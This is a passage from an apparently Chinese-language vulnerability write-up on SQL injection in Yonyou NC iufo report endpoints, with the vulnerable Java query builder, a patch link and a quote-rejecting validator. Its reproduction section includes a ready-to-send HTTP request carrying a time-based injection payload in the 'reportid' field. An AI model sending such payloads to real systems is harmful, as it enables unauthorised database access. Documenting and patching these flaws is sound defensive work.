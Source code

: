 ```bash
            buffer.append(" FROM ").append(tableName);
        }

        if (condition != null && condition.length() != 0) {
            if (condition.toUpperCase().trim().startsWith("ORDER ")) {
                buffer.append(" ").append(condition);
            } else {
                buffer.append(" WHERE ").append(condition);
            }
        }

        return buffer.toString();
    }
```

### 漏洞复现

```bash
POST /service/~iufo/nc.itf.iufo.mobilereport.data.ReportDetailDataQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

{"reportid":"1';waitfor delay '0:0:4'--"}
```

### 漏洞修复

补丁地址： [https://security.yonyou.com/#/noticeInfo?id=465](https://security.yonyou.com/#/noticeInfo?id=465)

```bash
formPK = (String) requestMap.get("reportid");
//防 SQL 注入
DataParamValidator.validate(formPK);

public static void validate(String param) throws ServletException{
    if(param.contains("'")){
        throw new ServletException("invalid parameter");
    }
}
```

## ArchiveVerify 接口存在 SQL 注入

### 漏洞描述

攻击者未经授权可以访问数据库中的数据，从而盗取用户数据，造成用户信息泄露。

### 漏洞分析
